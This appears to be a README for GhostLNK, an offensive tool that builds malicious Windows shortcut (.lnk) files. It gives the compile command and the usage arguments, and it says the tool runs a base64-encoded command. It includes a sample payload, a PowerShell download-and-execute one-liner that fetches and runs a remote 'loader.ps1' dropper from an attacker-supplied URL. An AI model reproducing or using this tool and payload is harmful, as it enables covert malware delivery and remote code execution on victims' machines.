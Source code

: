 # GhostLNK
Command for compiling the file:

```bash
$ gcc ghostlnk.c -lole32 -lshell32 -o ghostlnk.exe
```

## How to use the file
For using the compiled file, we need to set 3 arguments:
```cmd
$ .\ghostlnk.exe <LOCAL|REMOTE> "<file>.lnk" '<BASE64>'
```

In each one we need to specify:
1. "LOCAL" or "REMOTE" to decide whether to check if the route can be written to ("LOCAL") or if it is not necessary to check ("REMOTE")
2. Path where the file is saved
3. Base64 of the command the lnk will execute

## Some things to keep in mind
The LNK file has a character limit, so it is advisable not to put a payload too big, that's why there is the `loader.ps1`, to use it as a dropper. Some of the payloads I used in the testing are:

```bash
$ echo -n 'iex (iwr http://<URL>:13313/loader.ps1 -UseBasicParsing)' | iconv -f utf-8 -t utf-16le | base64 -w 0
```

Virustotal hash: `a2cd090c7e476f1d769a5993833cbc66ee589027a6c98606229160a8464c1ecd`